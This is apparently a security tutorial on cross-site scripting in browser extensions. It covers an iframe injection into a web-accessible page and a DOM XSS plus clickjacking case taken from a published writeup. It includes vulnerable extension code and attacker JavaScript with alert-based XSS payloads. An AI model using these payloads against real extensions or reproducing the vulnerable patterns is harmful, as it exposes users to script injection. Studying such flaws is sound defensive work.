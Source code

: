 # BrowExt - XSS Example


## Cross-Site Scripting (XSS) through Iframe

In this setup, a **content script** is implemented to instantiate an Iframe, incorporating a URL with query parameters as the source of the Iframe:

```javascript
chrome.storage.local.get("message", result => {
  let constructedURL = chrome.runtime.getURL("message.html") +
    "?content=" + encodeURIComponent(result.message) +
    "&redirect=https://example.net/details";
  frame.src = constructedURL;
});
```

A publicly accessible HTML page, **`message.html`**, is designed to dynamically add content to the document body based on the parameters in the URL:

```javascript
$(document).ready(() => {
  let urlParams = new URLSearchParams(window.location.search);
  let userContent = urlParams.get("content");
  $(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
  $('#detailBtn').on('click', () => {
    let destinationURL = urlParams.get("redirect");
    chrome.tabs.create({ url: destinationURL });
  });
});
```

A malicious script is executed on an adversary's page, modifying the `content` parameter of the Iframe's source to introduce a **XSS payload**. This is achieved by updating the Iframe's source to include a harmful script:

```javascript
setTimeout(() => {
  let targetFrame = document.querySelector("iframe").src;
  let baseURL = targetFrame.split('?')[0];
  let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
  let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

  document.querySelector("iframe").src = maliciousURL;
}, 1000);
```

An overly permissive Content Security Policy such as:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

allows the execution of JavaScript, making the system vulnerable to XSS attacks.

An alternative approach to provoke the XSS involves creating an Iframe element and setting its source to include the harmful script as the `content` parameter:

```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
  encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```

## DOM-based XSS + ClickJacking

This example was taken from the [original post writeup](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

The core issue arises from a DOM-based Cross-site Scripting (XSS) vulnerability located in **`/html/bookmarks.html`**. The problematic JavaScript, part of **`bookmarks.js`**, is detailed below:

```javascript
$('#btAdd').on('click', function() {
    var bookmarkName = $('#txtName').val();
    if ($('.custom-button .label').filter(function() {
        return $(this).text() === bookmarkName;
    }).length) return false;

    var bookmarkItem = $('<div class="custom-button">');
    bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
    bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
    bookmarkItem.attr('data-title', bookmarkName);
    bookmarkItem.data('timestamp', (new Date().getTime()));
    $('section.bookmark-container .existing-items').append(bookmarkItem);
    persistData();
});
```

This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Typically, the Chrome extension's Content Security Policy (CSP) would prevent such vulnerabilities. However, due to **CSP relaxation with ‘unsafe-eval’** and the use of jQuery’s DOM manipulation methods (which employ [`globalEval()`](https://api.jquery.com/jquery.globaleval/) to pass scripts to [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) upon DOM insertion), exploitation is still possible.

While this vulnerability is significant, its exploitation is usually contingent on user interaction: visiting the page, entering an XSS payload, and activating the “Add” button.

To enhance this vulnerability, a secondary **clickjacking** vulnerability is exploited. The Chrome extension's manifest showcases an extensive `web_accessible_resources` policy:

```json
"web_accessible_resources": [
    "html/bookmarks.html",
    "dist/*",
    "assets/*",
    "font/*",
    [...]
],
```

Notably, the **`/html/bookmarks.html`** page is prone to framing, thus vulnerable to **clickjacking**. This vulnerability is leveraged to frame the page within an attacker’s site, overlaying it with DOM elements to redesign the interface deceptively. This manipulation leads victims to interact with the underlying extension unintentionally.

## References

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

